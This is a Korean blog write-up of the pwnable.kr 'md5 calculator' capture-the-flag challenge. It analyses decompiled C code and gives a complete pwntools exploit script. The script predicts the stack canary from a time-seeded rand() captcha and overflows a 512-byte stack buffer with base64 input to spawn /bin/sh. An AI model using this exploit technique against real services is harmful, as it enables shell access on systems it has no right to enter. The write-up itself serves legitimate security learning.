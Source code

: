```yaml
---
layout: post
title: Writeup - md5 calculator
---
```


지금까지 pwnable.kr에서 풀어본 문제들 중 점수가 가장 높았고, 그만큼 시간이 많이 걸렸다.

# MD5 Calculator

문제는 다음과 같다.

>We made a simple MD5 calculator as a network service. 
> Find a bug and exploit it to get a shell.
>
> Download : http://pwnable.kr/bin/hash
> hint : this service shares the same machine with pwnable.kr web service
> 
> Running at : nc pwnable.kr 9002


## 관찰

nc로 pwnable.kr에 접속해 어떤 일이 일어나는지 관찰해보자.

```
- Welcome to the free MD5 calculating service -  
Are you human? input captcha : 124274294  
>>> 124274294  
Welcome! you are authenticated.  
Encode your data with BASE64 then paste me!  
>>> asdf  
MD5(data) : 97f9d0857f1490352d489b8048da4ac9  
Thank you for using our service.
```
랜덤해보이는 어떤 숫자를 그대로 입력하면 다음 단계로 넘어가고,  base64 형태로 입력을 주면 MD5로 encrypt된 결과가 나온다.

이제 hash 바이너리를 받아 IDA로 분석해보자.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  int v5; // [esp+18h] [ebp-8h]
  int v6; // [esp+1Ch] [ebp-4h]

  setvbuf(stdout, 0, 1, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("- Welcome to the free MD5 calculating service -");
  v3 = time(0);
  srand(v3);
  v6 = my_hash();
  printf("Are you human? input captcha : %d\n", v6);
  __isoc99_scanf("%d", &v5);
  if ( v6 != v5 )
  {
    puts("wrong captcha!");
    exit(0);
  }
  puts("Welcome! you are authenticated.");
  puts("Encode your data with BASE64 then paste me!");
  process_hash();
  puts("Thank you for using our service.");
  system("echo `date` >> log");
  return 0;
}
```

```c
int my_hash()
{
  signed int i; // [esp+0h] [ebp-38h]
  int v2[8]; // [esp+Ch] [ebp-2Ch]
  unsigned int v3; // [esp+2Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  for ( i = 0; i <= 7; ++i )
    v2[i] = rand();
  return v2[4] - v2[6] + v2[7] + v3 + v2[2] - v2[3] + v2[1] + v2[5];
}
```

captcha 숫자가 사실은 `my_hash()`함수의 결과값이었으며, 이는 `rand()` 함수를 통해 만들어진 난수와 stack canary의 연산을 통해 나온 값임을 알 수 있다. 결과값을 이용해 어떻게든 stack canary값을 역추적할 수 있다면 이후 BOF가 가능할 것이다.

```c
unsigned int process_hash()
{
  signed int n; // ST14_4
  char *ptr; // ST18_4
  char v3; // [esp+1Ch] [ebp-20Ch]
  unsigned int v4; // [esp+21Ch] [ebp-Ch]

  v4 = __readgsdword(0x14u);
  memset(&v3, 0, 0x200u);
  while ( getchar() != '\n' )
    ;
  memset(g_buf, 0, sizeof(g_buf));
  fgets(g_buf, 0x400, stdin);
  memset(&v3, 0, 0x200u);
  n = Base64Decode(g_buf, (int)&v3);
  ptr = calc_md5((int)&v3, n);
  printf("MD5(data) : %s\n", ptr);
  free(ptr);
  return __readgsdword(0x14u) ^ v4;
}
```
`process_hash()`함수는 `fgets()`를 통해 사용자로부터 입력을 받고, 이를 Base64로 decode 해서 스택에 있는 `v3`에 저장한 다음 MD5로 변환한다.
여기서 자세히 보면 처음 `g_buf`에 입력을 받을때는 1024바이트를 받지만, base64로 decode된 결과를 저장하는 `v3`는 512바이트이므로 BOF가 가능하다는 것을 발견할 수 있다.

이번 문제를 풀면서 base64에 대해 처음으로 알게 되었는데, 자세한 설명은 [여기](https://effectivesquid.tistory.com/entry/Base64-%EC%9D%B8%EC%BD%94%EB%94%A9%EC%9D%B4%EB%9E%80)서 찾아볼 수 있다. 간단히 말하자면 base64는 ASCII 코드 중에서 잘 사용되는 64개의 문자를 골라서 64진법으로 나타내는 일종의 인코딩이다.

그러면 다음과 같은 단계로 문제를 풀 수 있게 된다.
1. captcha값을 이용해 stack canary값 역추적
2. base64로 인코딩된 payload를 입력으로 집어넣어 BOF


## 풀이

```python
from pwn import *
import ctypes, base64  
  
p = remote("localhost", 9002)  
libc = ctypes.CDLL("libc.so.6")  
  
context.log_level = "debug"  
  
p.recvuntil("Are you human? input captcha : ")  
seed = libc.time(None)  
captcha = int(p.recvuntil("\n"))  
p.sendline(str(captcha))  
  
libc.srand(seed)  
L = [None]*8  
for i in  range(8):  
	L[i] = libc.rand()  
canary = captcha - L[4] + L[6] - L[7] - L[2] + L[3] - L[1] - L[5]  
canary %= 0x100000000  
  
s = "A"*0x200 + p32(canary) + "B"*0xC  
  
s += p32(0x08048880)  
s += p32(0)  
s += p32(0x0804B0E0 + 720)  
  
p.recvuntil("me!\n")  
  
payload = base64.encodestring(s)  
payload = "".join(payload.split())  
payload += "/bin/sh\x00"  
p.sendline(payload)  
  
p.recvline()  
  
context.log_level = "info"  
p.interactive()
```

먼저 1번이 생각보다 쉽지 않았다. 가장 핵심이 되는 점은 `srand()`의 seed가 `time()` 이라는 사실이다. 서버의 시간을 정확히 알아야만 했다. 또한 seed를 알아도 C library의 `rand()` 값을 알기 위해서는 C의 사용이 필요했다.

내가 생각해낸 방법은 아니었지만, 결국 가장 간단한 방법은 아무 id로 pwnable.kr에 ssh로 접속해 로컬에서 문제를 푸는 것이었다. python의 ctypes 라이브러리를 이용해 `rand()`, `srand()`와 `time()` 함수를 그대로 사용해 문제를 해결할 수 있었다.

canary의 값을 구할 때 integer overflow를 python으로 구현해야 했는데, c_int 연산을 수행하고 싶었으나 방법을 몰라 단순히 0x100000000으로 나눈 나머지를 사용했다.

2번 항목에서 payload를 그대로 입력으로 넣지 않고 base64로 인코딩하는 점은 신선했다. `base64`라는 library를 사용해 쉽게 해결할 수 있었다.

BOF 과정에서 조금 헤맸는데, 처음에는 `fgets()`의 PLT를 사용해 /bin/sh를 입력하려고 했다. 하지만 함수의 입력으로 필요한 `stdin`을 인자로 넘겨줄 방법이 없다는 중요한 교훈을 얻었다. 결국 /bin/sh를 `g_buf`에 입력할 때 같이 넣어주는 간단한 방법으로 해결할 수 있었다.


<!--stackedit_data:
eyJoaXN0b3J5IjpbLTE4MjI3NDUwNTIsLTE2MjExMjc1NjEsLT
QzMTIzOTA1N119
-->